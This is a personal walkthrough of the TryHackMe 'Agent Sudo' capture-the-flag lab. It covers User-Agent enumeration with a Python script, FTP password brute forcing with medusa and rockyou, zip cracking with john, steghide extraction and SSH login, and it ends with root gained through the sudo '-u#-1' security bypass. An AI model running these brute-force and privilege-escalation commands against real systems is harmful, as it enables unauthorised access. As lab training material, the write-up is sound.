 # Agent Sudo (THM)

- https://tryhackme.com/room/agentsudoctf
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 21/tcp open ftp syn-ack vsftpd 3.0.3
2. 22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))

- ftp -> anonymous login not allowed

### HTTP

- at home page

```
Use your own codename as user-agent to access the site.
From,
Agent R
```

- user-agent - for http header ??
- what is codename??
- from text, Agent R, try to brute force from A-Z with user-agent header
- find agent C,
- I write this script to find
```python
import requests 
import string

out_file = ""

s = requests.Session()
for char in string.ascii_uppercase:
    url = 'http://10.10.218.47/index.php'
    header = {
        "User-Agent": char
    }
    r = s.get(url, headers=header)
    out_file += char + '\n' + '======' + '\n' + r.text + '\n'
    print(f'{char} -> {len(r.content)}, {r.status_code}')

with open('agent_find.txt', 'w') as f:
    f.write(out_file)

print('Done')
```

```
C
======
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

- then brute force ftp password with user chris

```sh
$ medusa -h $IP -u chris -P /usr/share/wordlists/rockyou.txt -M ftp -t 8
```

- `ACCOUNT FOUND: [ftp] Host: 10.10.218.47 User: chris Password: xxxxxxx [SUCCESS]`

- login with chris:xxxxxxx to ftp server
- get three files
- in text file

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- need to analyse pictures

```sh
$ binwalk cute-alien.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:53
$ ls
cute-alien.jpg  cutie.png  To_agentJ.txt

~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:57
$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- `binwalk -e cutie.png` -> get zip and txt file. Txt file is nothing. Extract the zip file.
- zip file is password protected
- find password of zip file

```sh
$ /opt/tools/john/run/zip2john 8702.zip > forjohn
$ john forjohn
# alien
$ 7zz x 8702.zip # with password -> alien, get To_agentR.txt
```

- To_agentR.txt

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
- use steghide to extract from `cute-alien.jpg` 
- this doesn't work and try to encode with base64

```sh
$ echo QXJlYTUx | base64 -d
# xxxxxx
$ steghide extract -sf cute-alien.jpg
Enter passphrase: xxxxxx
wrote extracted data to "message.txt".
```

- get message.txt

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

## User Access

- enter ssh with james:hackerrules!

```sh
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

## Root Access

```sh
james@agent-sudo:/tmp$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- It is vulnerable to sudo 1.8.27 - Security Bypass
- https://www.exploit-db.com/exploits/47502

```sh
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
root@agent-sudo:/tmp# whoami
root
```

![](images/2023-03-02-21-59-46.png)

- for the sake of completeness, I ran the linpeas and copy the result as lp_out.ansi.

---
